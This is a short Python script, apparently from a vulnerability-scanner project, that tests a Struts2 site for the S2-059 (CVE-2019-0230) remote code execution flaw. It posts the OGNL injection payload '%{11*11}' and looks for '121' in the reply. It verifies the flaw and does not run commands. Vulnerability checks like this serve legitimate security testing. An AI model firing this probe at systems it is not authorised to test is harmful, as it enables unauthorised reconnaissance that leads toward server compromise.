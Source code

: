 ```python
#!/usr/bin/env python3

import re
import requests

class S2_059_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-059漏洞,又名CVE-2019-0230漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Struts 2.0.0 - Struts 2.5.20',
            'date': '2020-08-11',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/index.action'
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded"
        }
       
        self.payload = {
            'skillName': '%{11*11}',
            'url': '/s2_059_war_exploded/index.action'
        }
    
    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """
        
        check_req = requests.post(self.url, data = self.payload, headers = self.headers)
        check_str = re.sub('\n', '', check_req.text)
        result = re.findall('label id="(.*?)">', check_str)
        if '121' in result[0]:
            return True
        else:
            return False

if  __name__ == "__main__":
    S2_059 = S2_059_BaseVerify('http://localhost:8080/s2_059_war_exploded/index.action')
    print(S2_059.run())
```

